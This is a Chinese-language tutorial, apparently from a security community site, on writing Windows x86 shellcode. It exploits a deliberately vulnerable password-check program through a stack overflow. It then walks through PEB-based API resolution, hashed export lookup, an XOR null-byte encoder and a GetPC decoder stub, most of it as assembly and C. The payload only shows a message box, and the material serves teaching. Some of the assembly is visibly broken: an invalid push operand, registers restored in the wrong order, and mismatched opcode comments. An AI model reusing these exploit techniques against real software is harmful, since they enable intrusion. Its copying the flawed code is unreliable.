






# 浅析：从0开始-shellCode的编写与完善-先知社区

> **来源**: https://xz.aliyun.com/news/17374  
> **文章ID**: 17374

---

#浅析：从0开始-shellCode的编写与完善

## 前置知识

* PE结构
* 汇编
* WindowsAPI

## ShellCode编写

先从一个最简单的例子开始，带大家完成ShellCode的编写与测试，测试环境为vs2022  
在进行测试之前，我们要先更改编译器设置



如图，因为改shellCode是写入到栈中，为了能够正确运行，要先把 链接器 -> 数据执行保护、链接器 ->随机基质都改成否，而且vs高版本都有堆栈检查，所以还要把 C/C++ -> 基本运行时检查 修改成默认值

更改完这几个设置后就能保证我们的ShellCode能够正确执行

测试程序：

```
#define _CRT_SECURE_NO_WARNINGS
#include <Windows.h>
#include <iostream>
#define PASSWORD "zishen"

int checkPassword(const char* password,int size) {
    int result = 1;
    char buff[7]{};
    memcpy(buff, password, size);
    result = strcmp(PASSWORD, buff);
    return result;
}

int main() {
    int flag = 0;
    char password[0x500];
    FILE* fp;
    if (NULL == (fp = fopen("password.txt", "rb"))){
        return 0;
    }
    fread(password, sizeof(password), 1, fp);
    flag = checkPassword(password,sizeof(password));
    if (flag) {
        MessageBoxA(NULL,"密码错误", "title", MB_OK);
    }
    else {
        MessageBoxA(NULL, "密码正确", "title", MB_OK);
    }
    return 0;
}
```

该测试程序可以看到一个很明显的栈缓冲区溢出漏洞，我们就可以尝试注入ShellCode弹出一个MessageBox

## 极简版ShellCode

```
void _declspec(naked)shellCode() {
    __asm {
        //zishen 7A 69 73 68 65 6E 
        push 0x006E65
        push 0x6873697A
        mov eax,esp
        push 0
        push 0
        push eax
        push 0
        mov eax,0x75C4C170//MessageBoxA
        call eax
        mov eax,0x764373D0//ExitProcess
        push 0
        call eax
    }
}

```

特别简单的一个ShellCode，将自己要弹框的字符串小端序push到堆栈中，然后依次调用MessageBoxA和ExitProcess

然后打开X32dbg

将这段汇编代码选中 右键 二进制==》编辑，选中C样式ShellCode字符串复制

打开010Editor，按下ctrl+shift+v，将shellCode复制到0019F90C后面



前面的和0019F90C是用来覆盖返回值，使得函数返回时，直接返回到我们的shellCode代码的开头，然后开始执行  


达成这样的效果，运行程序后，就会弹出信息框，然后退出程序

## 优化ShellCode

大家可以发现，上段ShellCode代码漏洞百出，换个机器或者重启系统就跑不起来了，现在我们接着来一步步优化

极简版问题：



1. shellCode起始地址在栈中，这个地址经常会发生改变，要找到一个能动态定位到ShellCode起始地址的方法
2. MessageBoxA和ExitProcess地址写死

堆栈情况：

在ret指令执行之后 esp==shellCode首地址，此时我们直接jmp esp，就可以跳转到shellCode位置

jmp esp的特点就是，几乎所有的程序都有jmp esp，因为只要系统版本一样，大部分情况下，系统DLL加载的地址都是一样的，所以我们直接用OD搜索该指令，利用该跳板跳转到我们的ShellCode地址即可

这样利用模糊测试定位溢出点时，将溢出点填上我们搜索的jmp esp指令所在的地址即可

**知识补充：**

Kernel32.dll user32.dll ntdll.dll 所有进程无论窗口还是控制台都会引用kernel32.dll，user32.dll是窗口程序专用，封装了所有跟窗口操作相关的API，Ntdll.dll 是ring0的大门，kernel32.dll和user32.dll最终都会调用ntdll.dll

我们可以打开WinDbg使用dt \_TEB 查看TEB结构体的信息

```
typedef struct _TEB{
    +0x00: _NT_TIB NtTib;//线程信息块
    +0x30: _PEB* PPEB;//进程环境块
}TEB,*PTEB;

typedef struct _NT_TIB {
  struct _EXCEPTION_REGISTRATION_RECORD *ExceptionList;//用于操作系统的SEH，大量用于反调试
  PVOID StackBase;
  PVOID StackLimit;
  PVOID SubSystemTib;
  union {
    PVOID FiberData;
    DWORD Version;
  } DUMMYUNIONNAME;
  PVOID ArbitraryUserPointer;
  struct _NT_TIB *Self;//指向自己
} NT_TIB,*PNT_TIB;

struct _PEB{
    +0x00C:  _PEB_LDR_DATA* Ldr;
}

ntdll!_PEB_LDR_DATA
   +0x000 Length           : Uint4B
   +0x004 Initialized      : UChar
   +0x008 SsHandle         : Ptr32 Void
   +0x00c InLoadOrderModuleList : _LIST_ENTRY			//载入顺序排序的dll
   +0x014 InMemoryOrderModuleList : _LIST_ENTRY			//内存排序的dll
   +0x01c InInitializationOrderModuleList : _LIST_ENTRY	//初始化排序的dll
//当dll文件加载后会使用ldr存放模块信息，通过_LIST_ENTRY双向链表可以遍历所有模块
       
typedef struct _LDR_DATA_TABLE_ENTRY
{
    LIST_ENTRY InLoadOrderLinks;
    LIST_ENTRY InMemoryOrderLinks;
    LIST_ENTRY InInitializationOrderLinks;
    PVOID DllBase;//模块基质 GetModuleHandle 找到导出表 Kernel32.dll
    PVOID EntryPoint;
    ULONG SizeOfImage;
    UNICODE_STRING FullDllName;
    ...
} LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY;
```

通过FS:[0x30]取到PEB地址，PEB+0x0c处指向PEB\_LDR\_DATA结构，PEB\_LDR\_DATA+0x1c处存放一些指向动态链接库信息的链表地址

```
mov esi, FS: [0x30]		 //PEB地址 当线程运行在R3下时,FS指向的段是GDT中的0x3B段，基地址为当前线程的TEB
mov esi, [esi + 0xC]	 //Ldr地址
mov esi, [esi + 0x1C]	 //InitalizationOrderModuleList
mov esi, [esi]			//第二个DLL文件信息 ntdll kernel32.dll或者kernelbase.dll
```

了解完这些信息，我们就可以优化我们的ShellCode代码了

* 先将字符串信息全部push入栈，且要尽可能的节省空间

```
//1、保存字符串信息
    pushad
    sub esp,0x30
    //hello,zishen
    mov byte ptr ds : [esp - 0x1] , 0x0
    sub esp,0x1
    push 0x6E656873
    push 0x697A2C6F
    push 0x6C6C6568

    //MessageBoxA
    push 0x41786F
    push 0x42656761
    push 0x7373654D

    //user32.dll	
    mov byte ptr ds : [esp - 0x1] , 0x0
    sub esp, 0x1
    mov ax, 0x6C6C
    mov word ptr[esp - 0x2], ax
    sub esp,0x2
    push 0x642E3233
    push 72657375

    //GetProcAddress
    mov byte ptr ds : [esp - 0x1] , 0x0
    sub esp, 0x1
    mov ax,0x7373
    mov word ptr[esp - 0x2], ax
    sub esp, 0x2
    push 0x65726464
    push 0x41636F72
    push 0x50746547

    //LoadLibraryA
    mov byte ptr ds : [esp - 0x1] , 0x0
    sub esp, 0x1
    push 0x41797261
    push 0x7262694C
    push 0x64616F4C

    mov ecx, esp
    push ecx
    call fun_payload
```

* 获取模块基质

```
//2、获取模块基址
fun_GetModule :
    push ebp
    mov ebp, esp
    sub esp, 0xc
    push esi
    mov esi, dword ptr fs : [0x30]//PEB指针
    mov esi, [esi + 0xc]//LDR结构体指针
    mov esi, [esi + 0x1c]//list
    mov esi, [esi]//list的第二项 kernel32/kernelbase
    mov esi, [esi + 8]//dllbase
    mov eax, esi
    pop esi
    mov esp, ebp
    pop ebp
    retn
```

* 解析PE，获取导出表

```
    //3、获取导出表 根据导出表查找需要的函数
fun_GetProcAddress :
    push ebp
    mov ebp, esp
    sub esp, 0x20
    push esi
    push edi
    push edx
    push ebx
    push ecx

    //第一个参数
    mov edx, [ebp + 8]//dllbase
    mov esi, [edx + 0x3c]//lf_anew
    lea esi, [edx + esi]//Nt头
    mov esi, [esi + 0x78]//导出表RVA
    lea esi, [edx + esi]//导出表VA      导出表+0x1c EAT      导出表+0x20 ENT      导出表+0x24 EOT
    mov edi, [esi + 0x1c]//EAT RVA
    lea edi, [edx + edi]//EAT VA
    mov[ebp - 0x4], edi
    mov edi, [esi + 0x20]//ENT RVA
    lea edi, [edx + edi]//ENT VA
    mov[ebp - 0x8], edi
    mov edi, [esi + 0x24]//EOT RVA
    lea edi, [edx + edi]//EOTVA
    mov[ebp - 0xC], edi

    //比较字符串获取API
    xor eax, eax
    xor ebx, ebx
    cld
    jmp tag_cmpfirst
    tag_cmpLoop :
inc ebx
    tag_cmpfirst :
mov esi, [ebp - 0x8]//ENT
    mov esi, [esi + ebx * 4]//RVA   
    lea esi, [edx + esi]//VA 函数名称字符串
    mov edi, [ebp + 0xc]//要查找的目标函数名称

    push esi//传参
    call fun_GetHashCode//获取ENT函数名称的hash值
    cmp edi, eax
    jne tag_cmpLoop

    mov esi, [ebp - 0xc]//EOT
    xor edi, edi//为了不影响结果清空edi
    mov di, [esi + ebx * 2]//EAT表索引
    mov edx, [ebp - 0x4]//EAT
    mov esi, [edx + edi * 4]//EAT函数地址rva
    mov edx, [ebp + 0x8]//dllbase
    lea eax, [edx + esi]//funaddr

    pop esi
    pop edi
    pop edx
    pop ebx
    pop ecx
    mov esp, ebp
    pop ebp
    retn 0x8
```

* 调用以上的各个功能实现输出hello,zishen

```
//4、执行payload
fun_payload:
    push ebp
    mov ebp, esp
    sub esp, 0x20
    pushad
    //1、先拿到dllbase
    call fun_GetModule
    mov [ebp-0x4],eax
    
    //2、获取LoadLibraryA
    push 0xD
    push ecx,[ebp+0x8]//获取字符串首地址
    push ecx
    push eax
    call fun_GetProcAddress
    mov [ebp-0x8],eax//LoadLibraryA地址
    
    //3、获取GetProcAddress
    push 0xF
    lea ecx,[ecx+0xD]//GetProcAddress
    push ecx
    push [ebp-0x4]//dllBase
    call fun_GetProcAddress
    mov [ebp-0xC],eax
    
    //4、调用LoadLibrary 加载user32.dll
    mov ecx,[ebp+0x8]
    lea ecx,[ecx+1C]//user32.dll字符串首地址
    push ecx
    call [ebp-0x8]//调用LoadLibrary获取user32.dll
    mov [ebp-0x10],eax
    
    //5、调用GetProcAddress获取MessageBoxA地址
    mov ecx,[ebp+0x8]
    lea ecx,[ecx+0x27]
    push ecx
    push [ebp-0x10]
    call [ebp-0xC]
    mov [ebp-0x14],eax//MessageBoxA
    
    //6、输出hello,zishen
    push 0
    push 0
    mov ecx,[ebp+8]
    lea ecx,[ecx+0x33]
    push ecx
    push 0
    call [ebp-0x14]
    
    popad
    mov esp,ebp
    pop ebp
    retn 0x4
```

### ShellCode瘦身

在很多攻击环境下，对于我们的shellCode的大小都是有严格限制的，然而仅仅是调用一个MessageBox，我们就多了几十个与逻辑不相干的字节，因此我们需要继续优化，给ShellCode“瘦身”！

* 使用Hash算法对使用的字符串进行编码

```
DWORD getHashCode(char* strname)
{
    DWORD digset = 0;
    while (*strname) {
        digset = (digset << 25 | digset >> 7);
        digset = digset + *strname;
        strname++;
    }
    return digset;
}
```

编写代码时，我们可以先写出C代码，然后对照着C代码写出汇编代码

```
void _declspec(naked) asmHashCode() {
    __asm {
        push ebp
        mov ebp,esp
        sub esp,0x4
        push ecx
        push edx
        push ebx
        push esi

        xor ecx, ecx
        mov dword ptr [ebp-0x4],0
        mov esi, [ebp + 0x8]//取字符串地址
    tag_hashLoop:
        xor eax, eax
        mov al, [esi + ecx]//第一个字节给al
        test al,al
        jz tag_end

        mov ebx,[ebp-0x4]
        shl ebx,0x19
        mov edx,[ebp-0x4]
        shr edx,0x7
        or ebx,edx
        add ebx,eax
        mov [ebp-0x4],ebx
        inc ecx//ecx++
        jmp tag_hashLoop
    tag_end:
        mov eax,[ebp-0x4]
        pop esi
        pop ebx
        pop edx
        pop ecx
        mov esp,ebp
        pop ebp
        retn 0x4
    }
}
```

这样在使用到一些字符串时，我们直接用编码后的值来进行比较即可

### ShellCode编码

我们可以看到，上面的ShellCode已经很完善了，但是还有一个严重的问题，就是包含了0x00，当我们的ShellCode中包0x00时，这个SellCode就会自动被字符串处理函数截断，例如使用strcpy将ShellCode拷贝到另一个buff缓冲区时，当遇到0时，字符串就会被截断，就不能完成ShellCode应有的功能了，所以我们要对ShellCode进行编码，确保不会出现0

```
BOOL encodeShellCode(char* shellCode, int shelllen) {
    int nkey = 0;
    BOOL ifSucess = TRUE;
    unsigned char* encodeBuff = new unsigned char[shelllen];

    for (int key = 0; key <0xFF; key++) {
        ifSucess = TRUE;
        nkey = key;
        for (int i = 0; i < shelllen; i++) {
            encodeBuff[i] = shellCode[i] ^ key;
            if (encodeBuff[i] == 0) {
                ifSucess = FALSE;
                break;
            }
        }
        if (ifSucess) { 
            break;
        }

    }
    if (!ifSucess) {
        return FALSE;
    }
    FILE* fp;
    fopen_s(&fp,"encode.txt", "w+");
    fprintf(fp, "nkey=========0x%0.2X
",nkey);
    fprintf(fp, "\
"");
    
    for (int i = 0; i < shelllen; i++) {
        fprintf(fp, "\x%02x", encodeBuff[i]);
        if((i+1)%12 == 0)
            fprintf(fp, ""\
"");
    }
    fprintf(fp, """);
    fclose(fp);
    delete[] encodeBuff;
    return TRUE;
}
```

上述代码，我们对ShellCode的每一个字节进行异或，然后判断是否为0，如果为0则换一个Key，确保ShellCode的每一个字节都不为0

### ShellCode解码

在解码之前我们首先要想一个问题，此时我们的shellCode已经是编码状态，不能直接执行了，所以我们要先解码，再执行，且ShellCode每次加载到内存中的位置都是不一样的，我们还要动态的获取头部位置



由于解码代码的长度是固定的，只要在解码头部获取到当前的EIP，就能根据偏移量计算ShellCode位置

```
//方案一
0x00401000 E800000000 	 call 0x00401005   //执行完后 0x00401005入栈
0x00401005 58			pop eax			//此时eax为当前指令所在地址，即成功获取EIP
```

* 但是第一行汇编的硬编码是E9 00000000，又出现了0，我们编码的意义就没了

```
//方案二
0x00401000 E8FFFFFFFF  call 0x00401004	//执行完会跳转到 0x00401004 FFC3 inc ebx，且将0x00401005入栈
0x00401005 C3		  ret			  //和0x00401004处的 FF 共同组成inc ecx指令
0x00401006 58		  pop eax		  //将0x00401005 pop给eax，则eax+1就是当前EIP
```

* 通过方案二中巧妙的将FF 和 C3组成不影响EIP新指令，我们就成功解决了方案一所存在的问题

解码程序：

```
    xor eax,eax
    call tag_get_eip-1
tag_get_eip:
    retn
    pop eax             //eax==tag_get_eip
    lea esi,[eax+0x1B]  //0x1B为该解码函数的硬编码长度
    xor ecx,ecx
    mov cx,0x262
tag_decode:
    mov al,[esi+ecx]
    xor al,0x5
    mov [esi+ecx], al
    loop tag_decode
    xor [esi+ecx],0x5
    jmp esi
```

这样一个ShellCode代码就被我们一步一步的完善好啦！

**结语：**

在接触ShellCode之前，我一直以为它是特别高大上以及复杂的一项技术，但是接触了之后才发现，实际上就不过是一段汇编代码而已。而学习了更多之后我们会发现，ShellCode也是一门艺术，里面还蕴含着许多值得我们挖掘的细节！想要把它写好也需要很多知识储备和大量的练习，ShellCode作为漏洞利用的核心技术之一，重要性母庸质疑！本文通过浅析希望能给大家带来帮助，代码有不足之处还请谅解，逆向之路永无止境，一起加油！
